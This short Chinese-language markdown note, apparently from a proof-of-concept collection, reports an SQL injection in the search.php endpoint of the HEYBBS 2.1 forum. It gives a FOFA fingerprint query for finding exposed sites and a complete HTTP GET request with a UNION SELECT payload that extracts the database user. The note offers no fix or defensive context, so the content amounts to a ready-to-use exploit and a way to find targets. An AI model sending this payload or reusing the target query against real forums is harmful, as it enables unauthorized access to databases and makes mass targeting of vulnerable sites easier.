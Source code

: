 # HEYBBS2.1论坛search.php存在sql注入漏洞.md

HEYBBS2.1论坛在search.php接口下存在sql注入漏洞

## fofa

```javascript
Body="微社区, 微论坛, 微博客"
```

## poc

```javascript
GET /search.php?sosuo=qq%27%20UNION%20ALL%20SELECT%20NULL,NULL,NULL,CONCAT(0xc,user(),0xc),NULL,NULL,NULL,NULL,NULL,NULL--%20- HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Referer: https://fofa.info/
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Pragma: no-cache
Cache-Control: no-cache


```
